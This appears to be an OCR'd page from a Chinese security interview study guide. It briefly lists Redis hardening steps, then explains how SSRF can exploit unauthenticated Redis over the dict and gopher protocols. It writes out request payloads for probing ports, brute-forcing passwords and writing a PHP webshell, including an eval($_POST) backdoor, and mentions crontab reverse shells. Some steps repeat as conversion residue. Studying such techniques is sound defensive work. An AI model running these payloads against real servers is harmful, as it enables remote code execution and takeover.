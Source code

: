 redis未授权访问漏洞的防范措施：

1.添加登录密码

2.修改默认端口

3.关闭端口

4.禁止以root用户权限启动，以低权限启动redis服务

十八. SSRF怎么结合Redis相关漏洞利用？

答：

主要通过两种协议，dict协议和gopher协议。

dict协议利用redis相关漏洞：

探测端口：

ssrf.php?url=dict://x.x.x.x:$端口$ 利用burpsuite爆破端口

探测是否设置弱口令：

ssrf.php?url=dict://x.x.x.x:6379/info 已知端口利用info探测是否设置了密码

爆破密码：

ssrf.php?url=dict://x.x.x.x:6379/auth:$密码$ 利用burpsuite爆破密码

写入webshell：

1\. url=dict://xxx.xxx:6379/config:set:dir:/var/www/html 切换文件目录2.
url=dict://xxx.xxx:6379/config:set:dbfilename:webshell.php 设置保存文件名3.
url=dict://xxx.xxx:6379/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x3b\x3f\x3e"
//利用dict协议写入webshell 以上的字符编码是<?php phpinfo();?>的十六进制4.
url=dict://x.x.x.x:6379/save 保存

1\. url=dict://xxx.xxx:6379/config:set:dir:/var/www/html 切换文件目录

2\. url=dict://xxx.xxx:6379/config:set:dbfilename:webshell.php 设置保存文件名

3\.
url=dict://xxx.xxx:6379/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x70\x68\x70\x69\x6e\x66\x6f\x28\x29\x3b\x3f\x3e"

//利用dict协议写入webshell 以上的字符编码是<?php phpinfo();?>的十六进制

4.ssrf.php?url=dict://x.x.x.x:6379/save 保存

dict协议利用计划任务反弹shell或者写入ssh公钥的手段类似

gopher协议利用redis未授权访问漏洞写入webshell：

常规利用步骤：

set x "\n\n\n<?php @eval($_POST['redis']);?>\n\n\n"

config set dir /var/www/html

config set dbfilename shell.php

save
